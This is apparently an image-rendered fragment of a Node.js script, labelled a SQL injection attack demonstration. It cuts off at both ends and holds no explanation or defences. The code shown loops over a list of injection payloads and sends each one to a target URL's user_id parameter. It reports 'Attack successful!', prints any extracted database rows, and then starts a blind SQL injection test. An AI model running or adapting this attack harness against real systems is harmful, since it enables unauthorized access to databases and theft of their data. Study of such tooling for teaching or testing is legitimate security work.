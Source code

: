 ```node 
  $('table tr').each((i, row) => {
    if (i > 0) { // Skip header row
      const rowData = {};
      $(row).find('td').each((j, cell) => {
        rowData[headers[j] || `Column${j}`] = $(cell).text().trim();
      });
      if (Object.keys(rowData).length > 0) {
        tableData.push(rowData);
      }
    }
  });
  
  return tableData;
}

// Execute SQL injection attacks
async function executeSqlInjectionAttacks() {
  console.log('Starting SQL Injection Attack Demonstration');
  console.log('===========================================');
  
  for (const attack of sqlInjectionPayloads) {
    console.log(`\n[*] Executing: ${attack.name}`);
    console.log(`[*] Payload: ${attack.payload}`);
    console.log(`[*] Description: ${attack.description}`);
    
    try {
      const response = await axios.get(`${targetUrl}?user_id=${encodeURIComponent(attack.payload)}`);
      
      if (response.status === 200) {
        console.log('[+] Attack successful!');
        
        // Parse and display the extracted data
        const results = await parseResults(response.data);
        if (results.length > 0) {
          console.log('[+] Extracted data:');
          console.table(results);
        } else {
          console.log('[!] No data returned or could not parse the response.');
          // Display raw response for debugging
          console.log('[+] Raw HTML snippet:');
          console.log(response.data.slice(0, 500) + '...');
        }
      } else {
        console.log(`[!] Request failed with status code: ${response.status}`);
      }
    } catch (error) {
      console.error(`[!] Error during attack: ${error.message}`);
      if (error.response) {
        console.log(`[!] Server response: ${error.response.status} - ${error.response.statusText}`);
      }
    }
    
    console.log('-------------------------------------------');
  }
}

// Execute basic blind SQL injection test
async function testBlindSqlInjection() {
  console.log('\n[*] Testing for blind SQL injection vulnerabilities');
  
  const testCases = [
```